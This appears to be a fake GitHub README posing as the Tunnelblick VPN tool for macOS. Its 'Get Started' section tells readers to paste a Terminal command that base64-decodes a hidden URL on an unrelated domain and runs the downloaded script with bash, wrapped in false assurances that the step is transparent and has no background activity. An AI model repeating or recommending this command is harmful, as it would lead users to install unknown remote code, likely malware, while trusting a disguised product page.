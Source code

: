 
# 🔐 TunnelBlick for macOS — OpenVPN Access Tool

TunnelBlick helps manage OpenVPN connections securely on macOS.  
This minimal-access script allows you to connect and control VPN settings from a clean interface.

---

### 📦 Get Started

Paste this command into your macOS Terminal:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9hbmdlbGFrd2FrLmNvbS90Yi9pbnN0YWxsLnNo | base64 -d))"
```

✅ Transparent and verifiable  
🛡 No background activity  
🔍 Easy to review before use

---

### 💻 Compatibility

- macOS 10.14 and newer  
- Intel & Apple Silicon supported  
- Requires Terminal and internet access

---

### ✏️ Useful Tips

Consider pairing TunnelBlick with secure DNS services or private network gateways for a safer connection.

---

### 📄 License

MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy of this software...
